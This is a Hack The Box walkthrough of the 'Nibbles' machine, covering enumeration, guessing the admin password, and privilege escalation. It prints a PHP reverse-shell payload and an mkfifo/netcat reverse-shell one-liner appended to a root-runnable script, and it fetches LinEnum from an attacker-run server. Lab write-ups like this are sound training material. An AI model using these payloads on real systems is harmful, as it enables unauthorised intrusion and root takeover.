

+++
tags = ["HackTheBox", "Linux", "Web Application", "RCE"]
title = "Nibbles - HTB"
weight = 10
draft = false
images = [ "/walkthroughs/nibbles/logo.png" ]
description = "Nibbles is a fairly simple machine, however with the inclusion of a login blacklist, it is a fair bit more challenging to find valid credentials. Luckily, a username can be enumerated and guessing the correct password does not take long for most."
+++


Date written: April 2024     
Date published: April 2024

## Introduction

Nibbles is a fairly simple machine, however with the inclusion of a login blacklist, it is a fair bit more challenging to find valid credentials. Luckily, a username can be enumerated and guessing the correct password should not take long. 

Nibbles is a good starter or refresher machine too. As a note I did do this box in conjunction with HTB Academy's Pentester Path. So some information may not be needed to complete the box, but its good to review.  

As always you will want to [connect](https://help.hackthebox.com/en/articles/5185687-introduction-to-lab-access) to your HTB VPN or connect to Pwnbox. Once your connected lets get started with Nibbles!

## Enumeration

 I started by running an basic port scan on the box just to see what I could access. I also added the flags -sC to run a basic set of scripts on each open port and the -sV flag to identify the version of each service running. 

 ```nmap -sV -sC $IP```


I saw that port 80 and port 22 were open and decided to do a little more recon on each port before diving into the website. First I ran netcat banner grab on each port. Then ran the nmap script http-enum. 

The banner grab on port 22 did give me the SSH version, but port 80 did not yield anything. The nmap http-enu script did give me the same information for port 22, but also gave me the apache version of the web server. 

```bash
nc -nv  10.129.125.8 22
nc -nv  10.129.125.8 80
nmap -sV --script=http-enum 10.129.125.8
```


After find that information I decided to give into the webpage. The initial webpage doesn't give me much, but the source code does reveal a url I can navigate to ```http://$IP/nibbleblog```.


Navigating to  ```/nibbleblog``` does not yield much either, but I decided to run a gobuster scan to see if there were any more urls I could utilize. 

```gobuster dir -u http://10.129.125.8/nibbleblog/ --wordlist /usr/share/dirb/wordlists/common.txt```


After the scan completed I now have access to a handful of other directories. If this were an actual penetration test I would run gobuster/dirbuster/wfuzz/etc scan against each of those URLs as well as the main domain. 

The above screenshot does not show the ```/nibbleblog/README``` page, but it is a common page I will check along with the siteslist and robots.txt pages. I ran a ```curl``` command on the README page and it revealed the nibbleblog version the site is running. It also says the content directory is writable. Navigating to ```/nibbleblog/content``` gives me a file directory. 

```curl http://10.129.125.8/nibbleblog/README```


After searching the file directory for a while I found the file ```users.xml```. I opened the file by clicking the link, but the same can be achieved by using curl. The file contains the username ```admin```. So now I have a username, but no login page, yet. 


I then went back to my gobuster results and navigated to the admin.php page, which is the log in page. I have the username of admin, but still need a password. My typical first password to guess is admin, but no luck. I then tried the name of the box and I was in. 

```username: admin password: nibbles```


## Initial Foothold

The first thing I notice on the page is the plugin directory, because plugin directories typically let you upload files. I start by crafting a reverse bash shell with in a php script. I use the [Reverse Shell Generator](https://www.revshells.com/), but my two favorite resources are [HighOn.Coffee's blog](https://highon.coffee/blog/reverse-shell-cheat-sheet/) and [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

```<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $IP $PORT >/tmp/f"); ?>```




Once I uploaded my shell I set up a netcat listener with ```nc -lvnp $IP $PORT``` using the same IP and port I specified in my shell. 


I then navigated to the directory where the ```image.php``` plug in is stored. ```/nibbleblog/content/private/plugins/my_images```


Click the ```image.php``` shell you created, go to your listener, and there should be a shell. Once I had a base shell I upgraded it with the following commands.

```python3 -c 'import pty; pty.spawn("/bin/bash")'```


Navigate to the ```/home/nibbler/user.txt``` file and cat your user flag!

## Privilege Escalation

In the nibbler directory there is also a file called personal.zip. I unzipped the file and saw that there is a script called monitor.sh which isn't helpful at the moment. So I then started a python server on my host machine ```sudo python3 -m http.server $Port``` to transfer the [LinEnum](https://github.com/rebootuser/LinEnum) script to the victim machine. 


I saved the LinEnum script to my / directory. Back on the nibbler server I downloaded LinEnum with ```wget $IP/Path/To/LinEnum```. The IP should be your IP not 0.0.0.0 like the python server terminal may show. 


Once downloaded I changed the permissions of the file with ```chmod  +x LinEnum.sh```. Then ran the script with ```./LinEnum.sh```.

After a while the script will finish and I found that the user ```nibbler``` can run the file /home/nibbler/personal/stuff/monitor.sh with root privileges.


Now I know I can run the file, but what I really need is a shell, not to run the existing file. I wrote a bash script to the monitor.sh file and set up a new room listener. 

```echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $IP $PORT >/tmp/f' | tee -a monitor.sh```

After the listener is set up I ran the monitor.sh file, which looks like it breaks or does nothing, but checking the listener says otherwise. 


We have root! I then cat-ed ```/root/root.txt```